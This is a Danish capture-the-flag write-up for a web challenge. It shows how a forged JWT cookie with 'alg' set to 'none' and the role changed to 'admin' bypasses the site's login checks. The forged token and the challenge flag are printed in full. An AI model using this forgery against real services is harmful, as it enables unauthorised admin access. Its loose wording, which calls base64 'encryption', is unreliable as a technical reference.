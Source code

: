 # None of your business

## Opgaven
> På dit nye skrivebord finder du en støvet seddel, hvor der står: "inc.hkn Opdater venligst JWT-biblioteket! Det haster meget! Kan omgå sikkerhed til admin!". Nu er du nysgerrig: Hvad skete der her?

## Løsning
Vi starter med at se på hjemmesiden, der er med til opgaven. 

![img.png](../assets/web_noyb_1.png)


> **Om JWT**
> 
> `JWT` er en forkortelse for "JSON Web Tokens" og er et bibliotek til brugerautentifikation baseret på en cookie. Værdien i cookien består af 3 dele, som er base64-krypteret og adskilt med ".":
> 1. Header
> 2. Payload (data)
> 3. Signature
> 
> I **Headeren** står blandt andet, hvilken algoritme, der er brugt samt, at det er en `JWT` cookie.
>
> I **Payload** kan der stå hvad som helt, som hjemmesiden måtte have brug for. Her står der en rolle, som vi gerne vil have ændret til "admin".
>
> **Signaturen** tager header, payload og en secret og danner derefter en signatur, som serveren kan verificere og dermed bekræfte ikke er ændret.

Der er i opgavebeskrivelsen et hint til `JWT`, og der findes da også en cookie ved navn `jwt` med følgende værdi: 

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoidmlzaXRvciJ9.NYurrr01ZVp9TFD5Pvi5fNsj3Vrdw_yO9mWggE0dXMw
```

Hvis man kopierer værdien ind på [jwt.io](https://jwt.io), får man følgende udlæsning af værdien: 

![img.png](../assets/web_noyb_jwt.png)

Det bemærkes her, at vi har rollen "visitor".

Fra opgavebeskrivelsen kunne der godt ligge et hint til, at der er en kendt sårbarhed i `JWT`, som vi måske kan undersøge.

Det viser sig, at man kan sætte "alg" til "none" i stedet for en reel algoritme. Det kan vi udnytte til at bryde systemet. 

Hvis vi ændrer på de dele, vi gerne vil have ændret, kan vi prøve at sætte signaturen til ikke at bruge nogen algoritme og dermed måske lade os sende det nye payload uden at serveren fejler. 

```json
{
  "typ": "JWT",
  "alg": "none"
}
```

```json
{
  "role": "admin"
}
```

Disse dele base64-krypterer vi nu og får en ny cookie, hvori hver del sættes sammen med et punktum: 

```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0.ewogICJyb2xlIjogImFkbWluIgp9.

```

Bemærk her, at den tredje del efterlades "tom", men at der stadig er et afsluttende "." for at indikere, at den er tom. 

Vi erstatter vores cookie på hjemmesiden og reloader siden.

![img.png](../assets/web_noyb_admin.png)

Vi har nu adgang til "admin"-siden, som giver og flaget: 

```
DDC{uPdatEE_NeeDeD_urgenttliy}
```

